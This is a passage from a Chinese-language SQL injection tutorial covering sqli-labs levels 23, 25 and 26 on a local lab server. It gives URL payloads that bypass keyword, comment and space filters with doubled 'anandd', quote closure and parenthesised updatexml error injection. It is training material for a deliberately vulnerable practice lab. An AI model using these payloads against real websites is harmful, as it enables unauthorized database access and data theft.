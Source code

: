 URL：http://192.168.10.150/sqlilabs/Less-25/?id=1' anandd 1=2--+

![img](assets/3zVqaiu1XypxNoB.jpg) 

后面使用到的所有的函数单词中涉及or或and都需要双写，不然会被过滤。

至于使用报错还是布尔亦或者延迟都可以，可能会存在有些盲注使用不了还可以使用联合查询，使用什么方式可以自己进行测试。

### 4.3.2.**案例**sql-labs-less-23 注释符绕过

#### 4.3.2.1.**构造干扰字符闭合**

URL：http://192.168.10.150/sqlilabs/Less-23/?id=1' anandd '1'='2--+

![img](assets/CxM4cJfBr98kRND.jpg) 

### 4.3.3.**案例**sql-labs-less-26 空格绕过

这一关涉及到了and或or过滤，空格过滤，注释符过滤。至于空格为什么没使用编码绕过，是因为搭建的环境不识别，所以就使用了括号绕过，但前提是括号没被过滤。

#### 4.3.3.1.**括号绕过**

URL：http://192.168.10.150/sqlilabs/Less-26/?id=1'anandd(updatexml(1,0x7e,1))anandd'
